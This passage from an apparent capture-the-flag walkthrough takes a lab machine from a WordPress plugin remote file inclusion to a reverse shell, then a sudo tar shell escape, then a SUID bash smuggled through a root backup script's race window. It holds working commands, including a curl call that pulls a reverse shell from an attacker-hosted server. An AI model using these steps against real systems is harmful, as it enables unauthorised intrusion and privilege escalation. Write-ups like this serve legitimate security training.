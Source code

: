 6. I started a netcat listener, created a shell file called wp-load.php using Pentest Monkey's php-reverse-shell.php script, and hosted in on a webserver on Kali.  Then I used the RFI again to pull the file from my webserver on Kali to get a reverse shell as the www-data user:

   ```bash
   curl http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.37/
   ```

   ![image-20201105210700936](.Report.assets/image-20201105210700936.png)

7. I found that the user www-data had permissions to run /bin/tar as the user onuma.  It is possible to spawn a shell using the tar command, so I combined this with sudo to spawn a shell as the onuma user:

   ```bash
   sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
   ```

8. After further enumeration, I found a log at  `/var/backups/onuma_backup_test.txt` that had output of a recently run program called backuperer.  I searched for this program and found it in /usr/sbin/backuperer.
   ![image-20201106130050230](.Report.assets/image-20201106130050230.png)

9. Examining this program, I found that it was running as root, making a backup of /var/www/html as the user onuma, then it would pause for 30 seconds.  It would then extract the backup as root to /tmp/var/check and diff the folder with the original to make sure it ran correctly.  If so, it deleted the check folder, but if not, left the check folder there until it was deleted on the next cycle.

10. Because the backup file was created as the onuma user, I took advantage of that 30 second window.  I first transferred the 32-bit bash binary from the target to my Kali machine (since my bash is 64-bit).  I changed the owner of the file to root and gave it SUID permissions.  Then I created the folder var/www/html and put the bash file in it, just to mirror the setup on the target, and then tar.gz-ipped the var/ directory. 

    ```bash
    chown root: bash
    chmod 4755 bash
    tar -czvf suidbash32.tar.gz ./var
    ```
